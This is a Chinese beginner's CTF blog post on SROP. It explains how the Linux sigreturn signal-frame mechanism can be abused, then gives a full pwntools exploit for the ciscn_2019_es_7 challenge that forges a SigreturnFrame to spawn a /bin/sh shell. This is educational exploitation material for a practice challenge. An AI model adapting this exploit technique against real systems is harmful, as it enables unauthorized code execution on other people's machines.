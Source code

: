 # pwn初学者的进阶（四）：SROP


SROP，听着似乎是一个非常高大上的ROP方式，再加上涉及到signal和内核等概念，很容易给人一种难以理解的第一印象。但看过[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)之后你会发现，原理非常简单易懂。

<!--more-->

## 基本原理

SROP与Unix系统的信号（signal）处理机制相关。关于Unix系统的信号处理、中断、用户态内核态等概念，忘了的话建议先去google一下。理解这些东西才能够更好地理解SROP的工作原理。

首先盗一张ctf-wiki上关于信号处理过程的流程图。

![img](ProcessOfSignalHandlering.png "Procedure of signal handling")

几个阶段分别发生了什么：

- ①：用户态进程接收到别的进程发送的信号signal，该进程被挂起，进入内核态
- ②：内核保存用户态进程的上下文，然后跳转到用户态的信号对应的信号处理程序，回到用户态。在这一阶段里，内核会构造一个位于用户态进程栈上的`Signal Frame`用于存放该进程的上下文，然后再压入返回地址`rt_sigreturn`。
- ③：用户态的信号处理程序执行完毕，pop返回地址`rt_sigreturn`，进程进入内核态，执行`sigreturn`系统调用。内核根据之前栈上的`Signal Frame`完成用户态进程上下文的恢复。
- ④：返回用户态，进程按照恢复的上下文继续执行。

SROP作用于第3阶段，也就是内核根据`Signal Frame`的内容恢复进程上下文的过程。

`Signal Frame`是一个已知的数据结构，而且其存在于用户态的栈上。内核在恢复上下文时并没有确保其内容没有被修改过。因此，如果我们能够在栈上构造`sigreturn`系统调用与`Signal Frame`结构体的话，就能够实现攻击的效果。

比如在栈上构造这么一个结构，就能够SROP获取shell。

![](srop-example-1.png "example")

## 例题

Buu上的[ciscn_2019_es_7](https://buuoj.cn/challenges#ciscn_2019_es_7)就是一个典型的例子。

程序允许`0x400-0x10`长度的栈溢出，并且提供了`mov rax 0x3b; ret`和`syscall`以及`pop rdi`/`pop rsi`的gadget，但是就是没有控制rdx的gadget。所以无法直接栈溢出ret2syscall。

再考虑到这么长的溢出长度，以及`mov rax 0x0f; ret`的gadget（0xf号系统调用就是sigreturn），所以应该想到SROP。

![image-20211101200337067](image-20211101200337067.png "gadgets")

根据上面的例子，如果想要SROP执行`execve("/bin/sh", 0, 0)`的话，还需要知道字符串`"/bin/sh"`的地址。在这道题中，可以利用`sys_write`输出的栈地址来获取。

最终exp：

```python
from pwn import *

context(log_level = 'debug')
context(os="linux", arch="amd64")
if args.LOCAL:
    p = process('./ciscn_2019_es_7')
else:
    p = remote('node4.buuoj.cn', 26270)

syscall_ret = 0x400517
mov_rax_0x3b_ret = 0x4004e2 # execve
mov_rax_0x0f_ret = 0x4004da # sigreturn
main_addr = 0x40051d
call_vuln = 0x400531
vuln_addr = 0x4004f1

# first time
pld1 = b'/bin/sh\x00'
pld1 = pld1.ljust(0x10, b'a')
pld1 += p64(vuln_addr)
p.send(pld1)

stack_addr = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00'*2)
p.success("stack_addr: {}".format(hex(stack_addr)))

# second time
pld2 = b'/bin/sh\x00'
pld2 = pld2.ljust(0x10, b'a')
pld2 += p64(mov_rax_0x0f_ret)
pld2 += p64(syscall_ret)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr - 0x118
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
# print(sigframe)

pld2 += bytes(sigframe)
p.send(pld2)
p.interactive()
```

执行截图

![image-20211101203955060](image-20211101203955060.png "It works")

## 思考

如果`Signal Frame`完全可控的话，既然可以通过控制`rax`和`rip`来执行系统调用，那么如果程序中存在什么后门函数的话，是不是可以通过构造`rdi`/`rsi`和`rip`等寄存器，去执行这些函数呢？还是说内核态会限制一些函数的运行？

## 参考链接：

- [https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)
- [https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [提出SROP的论文：《Framing Signals—A Return to Portable Shellcode》](https://www.cs.vu.nl/~herbertb/papers/srop_sp14.pdf)


